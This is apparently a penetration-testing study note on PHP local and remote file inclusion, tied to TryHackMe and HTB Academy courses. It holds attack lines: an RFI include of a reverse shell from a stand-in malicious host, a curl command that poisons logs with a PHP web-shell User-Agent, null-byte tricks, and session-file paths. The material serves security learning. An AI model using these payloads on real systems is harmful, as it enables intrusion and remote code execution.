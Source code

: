 # File inclusion

[![fileinc](../../../../_badges/thmp/fileinc.svg)](https://tryhackme.com/room/fileinc)
[![fileinclusion](../../../../../cybersecurity/_badges/htb/fileinclusion.svg)](https://academy.hackthebox.com/course/preview/file-inclusion)

<div class="row row-cols-md-2"><div>

Files inclusion refers to websites that are importing a file based or using the user input. This involves using the user input to:

* 🐚 determine configuration files to include
* 🌍 determine language files to include
* ...

If the input is not filtered/validated, a hacker may include arbitrary content using [Path traversal](traversal.md) such as an uploaded script.
</div><div>

There are two categories of file inclusion

* **Local File Inclusion (LFI)** 🏠: include a local file
* **Remote File Inclusion (RFI)** ✈️: include a remote file

Template engines are more likely to contain LFI/RFI. They can lead to code/data exposure, which may further compromise the company.

📚 Look for headers, forms, etc. ⚠️ For RFI, always try a local URL that is likely not blocked by a firewall first <small>(ex: `http://127.0.0.1:80/index.php`)</small>. Alternatively, you may try `ftp://` or `\\IP\share\` on Windows.
</div></div>

<hr class="sep-both">

## PHP File Inclusion

<div class="row row-cols-md-2"><div>

The website `http://vulnerable.site/?lang=FR` is doing an include using `$_GET["lang"]` as seen below.

```php!
include "lang/$_GET[lang].php"
```

We can use [Path traversal](traversal.md) or [PHP Wrappers](files/wrappers.md) to include a malicious file, such as one we uploaded using another attack.

**Local File Inclusion (LFI)** 🏠: inject a local file

```php!
// ex: we uploaded a reverse shell (a fake PNG)
// as our avatar (avatar.png), then we could use:
include "lang/../uploads/avatar.png"
```
</div><div>

**Remote File Inclusion (RFI)** ✈️: inject a remote file

```php!
// 🛑 allow_url_fopen MUST BE SET TO true
include "http://malicious.site/reverse_shell.php"
```

**Additional notes**:

* The **null byte `%00`** could be used in **PHP < 5.3.4** to ignore trailing extensions such as `.png` below:

```php!
include "xxx.png%00.php" // include xxx.png
```

* The PHP string truncation could be used in **PHP < 5.3.0** as strings longer than 4096 were truncated.
</div></div>

<hr class="sep-both">

## Log Poisoning

<div class="row row-cols-lg-2"><div>

If the vulnerable function can execute code, we may not have to upload a webshell, we can inject PHP code in the logs and read the logs to execute the injected code.

Note that logs must be readable by the web application. Nginx logs are readable by anyone, but not Apache logs.

```ps
# Ex: load /var/log/apache2/access.log / ...
$ curl [...] -A "<?php system(\$_GET['cmd']); ?>"
```

👉 `/proc/self/environ` or `/proc/self/fd/<0-50>` will contains the User-Agent too, but they may not be readable either.
</div><div>

We can alternatively poison ssh logs <small>(username)</small>, ftp logs, etc.

#### PHP Sessions

If the session contains a value that we control, we can inject PHP code in this value, then we can read the session file.

* `/var/lib/php/sessions/sess_<session id>`
* `C:\Windows\Temp\sess_<session id>`
</div></div>